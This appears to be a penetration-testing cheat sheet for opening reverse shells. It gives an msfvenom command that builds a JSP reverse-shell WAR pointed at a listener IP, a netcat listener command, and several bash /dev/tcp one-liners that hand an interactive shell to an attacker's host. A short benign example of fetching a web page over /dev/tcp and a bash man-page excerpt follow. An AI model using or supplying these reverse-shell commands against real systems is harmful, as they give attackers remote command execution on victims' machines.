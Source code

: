 ### JSP

```none
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.110.129 LPORT=4444 -f war > runme.war
```

### Bash /dev/tcp

If a server (attacker machine) is listening on a port:

```none
nc -lvp port
```

then we can use the below to connect

Method 1:

```none
/bin/bash -i >&/dev/tcp/IP/Port 0>&1
```

Method 2:

```none
exec 5<>/dev/tcp/IP/80
cat <&5 | while read line; do $line 2>&5 >&5; done  

# or:

while read line 0<&5; do $line 2>&5 >&5; done
```

Method 3:

```none
0<&196;exec 196<>/dev/tcp/IP/Port; sh <&196 >&196 2>&196

-- We may execute the above using bash -c "Aboveline "
```

[Information about Bash Built-in /dev/tcp File (TCP/IP)](http://www.linuxjournal.com/content/more-using-bashs-built-devtcp-file-tcpip)

The following script fetches the front page from Google:

```none
exec 3<>/dev/tcp/www.google.com/80
echo -e "GET / HTTP/1.1\r\nhost: http://www.google.com\r\nConnection: close\r\n\r\n" >&3
cat <&3
```

- The first line causes file descriptor 3 to be opened for reading and writing on the specified TCP/IP socket. This is a special form of the exec statement. From the bash man page:

  ```none
  exec [-cl] [-a name] [command [arguments]]
  ```

  If command is not specified, any redirections take effect in the current shell, and the return status is 0. So using exec without a command is a way to open files in the current shell.
